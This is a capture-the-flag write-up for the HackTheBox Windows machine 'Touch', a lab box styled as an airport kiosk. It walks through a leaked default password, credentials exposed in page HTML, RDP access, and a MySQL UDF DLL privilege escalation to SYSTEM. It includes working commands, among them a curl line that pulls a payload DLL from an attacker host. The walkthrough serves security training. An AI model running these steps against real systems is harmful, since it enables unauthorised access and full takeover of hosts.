# Touch - HackTheBox Writeup

## Introduction

**Touch** is an easy Windows machine simulating an airport self check-in environment (HTB Airways). Initial access abuses the DeviceHub management console: an unauthenticated API endpoint leaks the kiosk device serial, and the device serial *is* the default password for the web console. The console pages then disclose plaintext credentials for the local `KioskUser`, granting RDP access to the kiosk appliance. Privilege escalation follows a classic on-host credential hunt: a readable maintenance batch file leaks the MySQL `root` password, and since the MySQL service runs as `LocalSystem` with an overly permissive plugin directory, a UDF DLL planted there yields command execution as `SYSTEM`.

-----

## 1. Initial Enumeration

### 1.1 Reconnaissance

#### 1.1.1 Network Scanning

Standard TCP and UDP scans are executed to map the external attack surface.

**TCP Scan**

```bash
nmap -sVC -T4 -p135,3389,5985,8443 -oN scans/TCP.nmap touch.htb
```

```text
PORT     STATE SERVICE        VERSION
135/tcp  open  msrpc?
3389/tcp open  ms-wbt-server?
5985/tcp open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-cors: GET POST PUT OPTIONS
|_http-title: Did not follow redirect to /login
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```bash
nmap -sVU --top-ports 200 -oN scans/UDP.nmap touch.htb
```

```text
All 200 scanned ports on touch.htb are in ignored states.
```

  - **WinRM** on TCP/5985 and **RDP** on TCP/3389 indicate a Windows host.
  - A custom web application is exposed on TCP/8443 (HTTP.sys), redirecting to `/login`.

### 1.2 Web Enumeration

Navigating to `http://touch.htb:8443/login` reveals the **Nexion DocReader / DeviceHub DH-100** management console for an airport gate (Gate B7).



The login form is password-only and presents a telling hint: *“The default password is the device serial number included in your DeviceHub packaging.”* Since the serial is often exposed through the management API, the application essentially documents its own default-credential weakness.

A quick endpoint probe of the unauthenticated API surface confirms this:

```bash
curl -s http://touch.htb:8443/api/status
```

```json
{"device":"Nexion DeviceHub DH-100","serial":"NX-DH-2024-B7042","firmware":"1.4.2","status":"online","uptime":...}
```

-----

## 2. Foothold — DeviceHub Web Console

### 2.1 Default Password Login

Submitting the leaked serial as the password authenticates the console session:

```bash
curl -i -s -X POST -d 'password=NX-DH-2024-B7042' http://touch.htb:8443/login
```

```text
HTTP/1.1 302 Found
Location: /dashboard
Set-Cookie: nxsession=<uuid>; ...
```

With the `nxsession` cookie, the management pages (`/dashboard`, `/logs`, `/printer`, `/scanner`, `/settings`) return `200`.



### 2.2 Credential Disclosure in Page HTML

All device pages embed UI action handlers that carry plaintext credentials for the attached Windows workstation. A simple “show” interaction on the scanner page reveals them directly in the HTML source:

```html
<script>
  ... toggleCred('su1','KioskUser'); toggleCred('sp1','K!0sk2026#'); ...
</script>
```



| Username | Password | Purpose |
|----------|----------|---------|
| `KioskUser` | `K!0sk2026#` | Windows kiosk logon (RDP) |

> **Note:** the scanner upload endpoint (`POST /api/scanner/test-image`) accepts arbitrary bytes but ignores filenames and offers no retrieval or execution of uploaded content, so a webshell upload is a dead end here.

-----

## 3. Host Access — RDP

### 3.1 WinRM Rejected

Attempting to use the disclosed credentials over WinRM (TCP/5985) fails with NTLM authentication errors, across all username formats (`KioskUser`, `touch\KioskUser`, `.\KioskUser`, …). The account is not permitted to log in remotely via WinRM.

### 3.2 RDP Logon

RDP (TCP/3389) accepts the credentials, landing on the **HTB Airways Self Check-In** kiosk application (Gate B7, Kiosk #042) running in a locked-down desktop session.

```bash
xfreerdp3 /v:touch.htb /u:KioskUser /p:'K!0sk2026#' /sec:rdp /dynamic-resolution +clipboard /cert:ignore
```



### 3.3 User Flag

The kiosk shell can be escaped by interrupting the attached scanner workflow (powering the device off mid-scan) and launching Edge from the error dialog. Browsing the local filesystem exposes the user flag:

```text
file:///C:/Users/KioskUser/Desktop/user.txt
```

```text
d74358d6<REDACTED>
```



-----

## 4. Privilege Escalation (`KioskUser` -> `SYSTEM`)

### 4.1 Local Enumeration

Active listeners show an unexpected service set for a kiosk appliance:

```cmd
netstat -ano -p tcp
```

```text
TCP    0.0.0.0:5985        LISTENING       4
TCP    0.0.0.0:8443        LISTENING       4
TCP    0.0.0.0:33060       LISTENING       3988
TCP    127.0.0.1:3306      LISTENING       3988
```

The MySQL service configuration identifies both the installation path and — critically — the service account:

```cmd
sc.exe qc MySQL80
```

```text
SERVICE_NAME       : MySQL80
BINARY_PATH_NAME   : C:\MySQL\bin\mysqld.exe --defaults-file=C:\MySQL\my.ini MySQL80
SERVICE_START_NAME : LocalSystem
```



  - **MySQL 8.0** listens on loopback only (3306/33060) and runs as **`LocalSystem`** — command execution in its context means instant `SYSTEM`.

### 4.2 Credential Hunting (Classic OS Enumeration)

Systematic credential hunting is performed across the application and maintenance directories:

1. **Application tree** — `C:\Program Files\HTB Airways\Kiosk\packages\backend\src\database\index.ts` exposes the database defaults:

   ```typescript
   const defaults = { host: "127.0.0.1", port: 3306, user: "kiosk_app",
                      password: "K!0sk_R3plica#DB", database: "htb_airways" };
   ```

   These credentials are stale in production (`ERROR 1045 Access denied`), but they confirm the database naming and that a *better* credential must exist elsewhere.

2. **MySQL configuration** — `C:\MySQL\my.ini` contains no credentials.

3. **Maintenance directory (`C:\ProgramData\HTB Airways\`)** — the ACLs tell the story:

   | File | Access as `KioskUser` |
   |------|------------------------|
   | `db-config.ini` | `Access is denied` (the “real” config) |
   | `db-sync-replica.ps1` | denied |
   | `refresh-dates.sql` | readable — date-refresh maintenance SQL |
   | **`refresh-dates.bat`** | **readable — and leaks credentials** |

   ```cmd
   type "C:\ProgramData\HTB Airways\refresh-dates.bat"
   ```

   ```bat
   @echo off
   C:\MySQL\bin\mysql.exe -u root -pHTB@irw4ys_DB!2026 < "C:\ProgramData\HTB Airways\refresh-dates.sql" 2>nul
   ```

   The ACL mismatch explains the leak: while `db-config.ini` is properly locked down, `refresh-dates.bat` inherited `BUILTIN\Users:(RX)`.

   ```cmd
   icacls db-config.ini
   icacls refresh-dates.bat
   ```

   ```text
   db-config.ini: Access is denied.

   refresh-dates.bat NT AUTHORITY\SYSTEM:(I)(F)
                     BUILTIN\Administrators:(I)(F)
                     BUILTIN\Users:(I)(RX)
   ```





**Recovered Credentials:** `root` : `HTB@irw4ys_DB!2026`

### 4.3 MySQL Access & Privilege Enumeration

```cmd
C:\MySQL\bin\mysql.exe -uroot -pHTB@irw4ys_DB!2026
```

```sql
mysql> SELECT VERSION(); SELECT @@secure_file_priv; SELECT @@plugin_dir;
```

```text
8.0.42
NULL
C:\MySQL\lib\plugin\
```

```sql
mysql> SHOW GRANTS;
```

```text
GRANT ALL PRIVILEGES ON *.* TO `root`@`localhost` WITH GRANT OPTION
```

The `root` account is omnipotent, but `secure_file_priv = NULL` disables SQL file import/export (`LOAD_FILE`, `INTO DUMPFILE`), so the flag cannot simply be read via SQL. Instead, the UDF attack path is used.

### 4.4 UDF DLL Injection

The plugin directory permissions are the actual vulnerability:

```cmd
icacls C:\MySQL\lib\plugin
```

```text
C:\MySQL\lib\plugin NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                   BUILTIN\Users:(I)(OI)(CI)(RX)
                   NT AUTHORITY\Authenticated Users:(I)(M)
                   NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)
```

Because `Authenticated Users` have **Modify**, any local user (including `KioskUser`) can drop the UDF library into the directory MySQL loads plugins from.

The payload is the prebuilt 64-bit `lib_mysqludf_sys` DLL that ships with Metasploit (it exports `sys_eval` / `sys_exec` for command execution). It is staged and verified on the attacking machine, served over HTTP, then downloaded by the target:

```bash
# Attack Machine — stage and verify the UDF payload
cp /opt/metasploit/data/exploits/mysql/lib_mysqludf_sys_64.dll udf.dll
sha256sum udf.dll
```

```text
91eda7b1e7bf2b2642f7060ccc018e5d4399936c53e714adf2ddf6e104b2df01  udf.dll
```

```bash
# Serve it to the target
python3 -m http.server 8899
```

```cmd
:: Target — download and copy into MySQL's plugin directory
curl.exe -s -o C:\Users\KioskUser\AppData\Local\Temp\udf.dll http://10.10.15.113:8899/udf.dll
copy C:\Users\KioskUser\AppData\Local\Temp\udf.dll C:\MySQL\lib\plugin\udf.dll
```

> The same binary can be obtained from sqlmap's bundled copy (`gunzip -c data/udf/mysql/windows/64/lib_mysqludf_sys.dll_ > udf.dll`) or compiled from the upstream source (see References).



```sql
mysql> CREATE FUNCTION sys_eval RETURNS STRING SONAME "udf.dll";
Query OK, 0 rows affected (0.08 sec)

mysql> SELECT sys_eval("whoami");
+---------------------+
| sys_eval("whoami")  |
+---------------------+
| nt authority\system |
+---------------------+
```



The UDF executes commands through `cmd.exe` in the context of the `mysqld` process — `NT AUTHORITY\SYSTEM`.

### 4.5 Root Flag

```sql
mysql> SELECT sys_eval("type C:\Users\Administrator\Desktop\root.txt");
```

```text
d9c9ea92<REDACTED>
```



-----

## Conclusions

  - **Default Credentials from Public Information:** The console advertised that the default password is the device serial; the serial itself was leaked by an unauthenticated API endpoint. Publicly derivable defaults are equivalent to no authentication.
  - **Secrets in Client-Side HTML:** The console embedded workstation credentials directly in page markup (`toggleCred(...)`), exposing them to any authenticated — or in some flows unauthenticated — user.
  - **Inconsistent File ACLs:** The database credentials survived in a readable maintenance script (`refresh-dates.bat`, `BUILTIN\Users:(RX)`) while the “real” configuration (`db-config.ini`) was properly restricted. A single file with correct permissions does not protect a secret duplicated in a script. Cleartext credentials in batch files are one of the most common privilege-escalation findings on Windows.
  - **Privileged Service + Writable Plugin Directory:** MySQL running as `LocalSystem` combined with `Authenticated Users:(M)` on `C:\MySQL\lib\plugin` turns any local user into `SYSTEM` via a UDF DLL (`CREATE FUNCTION ... SONAME`). Even `secure_file_priv = NULL` does not mitigate this, because the DLL is placed directly on disk rather than written through SQL.
  - **Attack Chain Summary:** Serial Leak (`/api/status`) → Default Password Login → Cleartext Credentials in HTML → RDP as `KioskUser` → OS Credential Hunt (`refresh-dates.bat`) → MySQL `root` Access → UDF DLL Injection → `NT AUTHORITY\SYSTEM` → root flag.

## References:

* [lib_mysqludf_sys — MySQL UDF library for command execution](https://github.com/mysqludf/lib_mysqludf_sys)
* [MySQL 8.0 — secure_file_priv and plugin directory documentation](https://dev.mysql.com/doc/refman/8.0/en/server-system-variables.html#sysvar_secure_file_priv)
